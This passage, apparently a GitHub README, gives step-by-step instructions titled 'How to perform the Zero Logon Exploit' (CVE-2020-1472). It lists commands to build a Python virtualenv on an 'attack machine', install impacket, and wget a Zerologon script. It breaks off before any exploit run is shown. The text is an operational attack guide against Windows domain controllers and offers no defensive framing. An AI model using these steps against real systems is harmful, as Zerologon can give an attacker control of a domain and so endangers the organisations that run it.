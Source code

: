 # How to perform the Zero Logon Exploit

1. Perform these commands (in order) on attack machine:
```
python3 -m pip install virtualenv
```
```
python3 -m virtualenv impacketEnv
```
```
source impacketEnv/bin/activate
```
pip install git+https://github.com/SecureAuthCorp/impacket

2. Put zeroLogon-NullPass.py on attack machine:
```
wget https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py
```
Note: if link ever breaks, you can find the same code in the same directory that this code is found (
